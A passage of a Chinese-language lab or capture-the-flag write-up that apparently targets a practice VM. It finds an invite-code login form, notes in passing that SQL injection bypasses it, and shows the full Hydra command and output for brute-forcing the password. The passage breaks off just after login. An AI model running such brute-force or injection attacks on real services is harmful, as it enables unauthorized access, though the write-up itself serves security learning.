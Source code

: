 只有 SSH 和 HTTP 服务，同时确定靶机操作系统为 `Ubuntu`

---

### Getshell 尝试

![image-20251022141215776](images/image-20251022141215776.png)

一个输入邀请码的界面，随手试了一下 password 就登录成功了（？）

（试了一下 SQL 注入也可以绕过密码）

出于对弱密码的尊重，对邀请码采用 Hydra 进行爆破。

BurpSuite 抓包发现为 http-post 请求，Request body parameters 为 `password=114`，输入错误的邀请码返回 `WRONG INFORMATION`，并且表单的 HTTP 参数为 `<form action="/login" method="POST">`，据此进行爆破：

```yacas
> hydra -l "" -P /usr/share/wordlists/nmap.lst 10.0.2.4 -s 8080 http-post-form "/login:password=^PASS^:WRONG INFORMATION" -f

Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-22 14:32:26
[DATA] max 16 tasks per 1 server, overall 16 tasks, 5007 login tries (l:1/p:5007), ~313 tries per task
[DATA] attacking http-post-form://10.0.2.4:8080/login:password=^PASS^:WRONG INFORMATION
[8080][http-post-form] host: 10.0.2.4   password: password
[STATUS] attack finished for 10.0.2.4 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-22 14:32:29
```

密码确实为 `password`（注意如果采用并行化爆破可能会把 http 服务打下线）

登录后是这样的画面：
